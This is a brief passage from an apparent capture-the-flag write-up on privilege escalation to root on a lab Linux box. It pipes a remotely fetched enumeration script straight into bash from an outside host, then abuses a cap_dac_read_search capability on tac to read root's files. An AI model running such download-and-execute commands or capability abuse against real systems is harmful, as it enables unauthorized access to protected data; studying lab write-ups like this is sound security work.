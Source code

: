 ### Privilege Escalation to root

To get any attack surface, it is a good idea to run any **Linux Enumeration Script** on the box:
```markdown
curl 10.10.14.7/LinEnum.sh | bash
```

After analyzing, there is a file that has [Linux capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) set:
```markdown
/usr/bin/tac = cap_dac_read_search+ei
```

As the manual page describes the _CAP_DAC_READ_SEARCH_ capability, the binary can do the following:
> "Bypass file read permission checks and directory read and execute permission checks"

So it is possible to read _root.txt_!
```markdown
/usr/bin/tac /root/root.txt
```
